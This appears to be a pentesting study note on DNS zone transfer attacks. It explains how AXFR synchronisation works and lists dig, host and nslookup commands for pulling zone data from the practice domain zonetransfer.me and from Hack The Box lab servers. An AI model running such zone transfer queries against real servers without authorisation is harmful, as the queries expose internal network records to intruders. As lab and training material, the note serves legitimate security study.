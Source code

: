 # DNS Zone Transfer Attack

* Synchronization between the servers involved is realized by zone transfer
  * Using a secret key `rndc-key`,
    * the default configuration, the servers make sure that they communicate with their own master or slave
* The slave fetches the `SOA` record of the relevant zone from the master at certain intervals,
  * the so-called refresh time,
    * usually one hour
  * compares the serial numbers
  * If the serial number of the SOA record of the master is greater than that of the slave, the data sets no longer match.

### Remarks

* if box is ubuntu and using dns tcp on port 53
  * might be susceptible to zone transfer attack

***

### Attack Internet

* get the name server

```bash
dig soa ZoneTransfer.me
```

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

* Exploit Zone transfer
  * linux
    * `dig axfr @nsztm1.digi.ninja zonetransfer.me`
    * `host -t axfr zonetransfer.me nsztm1.digi.ninja`
  * windows
    * `nslookup -type=axfr zonetransfer.me nsztm1.digi.ninja`

### Attack HTB

```bash
nslookup
```

```bash
server <server to ask for DNS request>
```

* ask the dns server to query it self

```
10.10.11.166
```

* for zone transfer

```bash
dig axfr @dns.server.ip top_level_domain.com
```

* example

```
dig axfr @10.10.10.123 friendzoneportal.red
```

## Reference

* https://yogesh-verma.medium.com/zone-transfer-attacks-a-practical-guide-to-detection-and-prevention-2e8346d0297e
